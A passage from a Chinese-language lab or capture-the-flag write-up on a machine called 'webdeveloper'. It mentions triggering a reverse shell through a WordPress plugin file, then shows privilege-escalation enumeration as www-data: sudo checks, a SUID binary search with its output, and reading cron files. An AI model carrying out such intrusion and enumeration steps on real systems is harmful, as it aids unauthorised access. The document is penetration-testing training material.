 ```bash
wp-content/plugins/akismet/akismet.php
```

执行反弹shell！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403170103368.png" alt="image-20240317003321280" style="zoom:50%;" />

获取到了shell！！！！

## 提权

### 切换webdeveloper用户

本来想传一个公钥，ssh登录一下的，创建不了`.ssh`，查看一下相关信息：

```bash
www-data@webdeveloper:/home/webdeveloper$ whoami;id
whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@webdeveloper:/home/webdeveloper$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified
www-data@webdeveloper:/home/webdeveloper$ find / -perm -u=s -type f 2>/dev/null
<webdeveloper$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
/bin/ping
/snap/core/16928/bin/mount
/snap/core/16928/bin/ping
/snap/core/16928/bin/ping6
/snap/core/16928/bin/su
/snap/core/16928/bin/umount
/snap/core/16928/usr/bin/chfn
/snap/core/16928/usr/bin/chsh
/snap/core/16928/usr/bin/gpasswd
/snap/core/16928/usr/bin/newgrp
/snap/core/16928/usr/bin/passwd
/snap/core/16928/usr/bin/sudo
/snap/core/16928/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/16928/usr/lib/openssh/ssh-keysign
/snap/core/16928/usr/lib/snapd/snap-confine
/snap/core/16928/usr/sbin/pppd
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/traceroute6.iputils
www-data@webdeveloper:/home/webdeveloper$ cat /etc/cron*
```